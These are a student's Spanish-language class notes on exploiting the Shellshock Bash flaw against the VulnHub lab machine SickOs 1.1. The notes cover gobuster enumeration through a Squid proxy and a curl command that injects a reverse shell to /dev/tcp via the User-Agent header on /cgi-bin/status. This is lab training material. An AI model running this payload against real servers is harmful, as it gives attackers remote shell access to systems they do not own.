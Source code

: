 ## Datos de la clase: 
Un ataque **Shellshock** es un tipo de ataque informático que aprovecha una vulnerabilidad en el **intérprete de comandos Bash** en sistemas operativos basados en Unix y Linux. Esta vulnerabilidad se descubrió en 2014 y se considera uno de los ataques más grandes y generalizados en la historia de la informática.

Esta vulnerabilidad en Bash permite a los atacantes ejecutar comandos maliciosos en el sistema afectado, lo que les permite tomar el control del sistema y acceder a información confidencial, modificar archivos, instalar programas maliciosos, etc.

La vulnerabilidad Shellshock se produce en el intérprete de comandos Bash, que es utilizado por muchos sistemas operativos Unix y Linux para ejecutar scripts de shell. El problema radica en la forma en que Bash maneja las variables de entorno. Los atacantes pueden inyectar código malicioso en estas variables de entorno, las cuales Bash ejecuta sin cuestionar su origen o contenido.

Los atacantes pueden explotar esta vulnerabilidad a través de diferentes vectores de ataque. Uno de ellos es a través del **User-Agent**, que es la información que el navegador web envía al servidor web para identificar el tipo de navegador y sistema operativo que se está utilizando. Los atacantes pueden manipular el User-Agent para incluir comandos maliciosos, que el servidor web ejecutará al recibir la solicitud.

A continuación se proporciona el enlace directo para la descarga de la máquina ‘**SickOs 1.1**‘. Esta máquina corresponde a la misma que estuvimos enumerando en la clase anterior, solo que en este caso procederemos con la fase de explotación haciendo uso de esta técnica:

- **SickOs 1.1**: [https://www.vulnhub.com/entry/sickos-11,132/](https://www.vulnhub.com/entry/sickos-11,132/)
----
## Mis apuntes: 

Seguiremos con la misma maquina de la clase de enumeración y vulneración de Squid Proxy. 
podemos enumerar las carpetas con gobuster pasando por el proxy como lo vimos la ves anterior pero esta vez le vamos a añadir el parámetro --add-slash, por lo que obtendriamos lo siguiente como respuesta: 
![[Pasted image 20240527144709.png]]
al ver la carpeta /cgi-bin/, se puede saber que puede estar bajo el riesgo de un ataque shell shock esto va a depender únicamente de la version de la shell que se tenga. 
![[Pasted image 20240527154806.png]]
como vemos encontramos un status dentro de esta carpeta cgi-bin, por lo que si nos metemos a la pagina pasando por el proxy podemos ver lo siguiente: 
![[Pasted image 20240527154928.png]]
ahora si buscamos como hacer un ataque shellshock podemos encontrar lo siguiente en internet: 
https://blog.cloudflare.com/inside-shellshock
en el cual podemos ver el siguiente ejemplo: 
```nginx
curl -H "User-Agent: () { :; }; /bin/eject" http://example.com/
```
en la parte en donde sale el /bin/eject es el programa que se desea ejecutar en el servidor, hay casos en los que este no funciona pero hay que intentando agregarle un echo;  entre el los términos de ejecución.
![[Pasted image 20240528012415.png]]
como puedo ganar acceso a la maquina. 
podemos ocupar el oneliner que ocuparemos casi siempre para ganar acceso desde algun comando. 
```nginx
curl http://192.168.1.86/cgi-bin/status --proxy http://192.168.1.86:3128 -H "User-Agent: () { :; }; echo; /bin/bash -c '/bin/bash -i >& /dev/tcp/92.168.1.88/443 0>&1'"
```
y tenemos que ponernos en escucha en nuestra maquina para poder tener acceso a la maquina desde nuestra consola: 
![[Pasted image 20240528013330.png]]
y en la parte que estamos de escucha nos sale lo siguiente: 
![[Pasted image 20240528013431.png]]
se puede hacer un script en python para hacer un shell shock de forma automatica: 
![[Pasted image 20240528150214.png]]
y esta otorga una consola interactiva: 
![[Pasted image 20240528150300.png]]
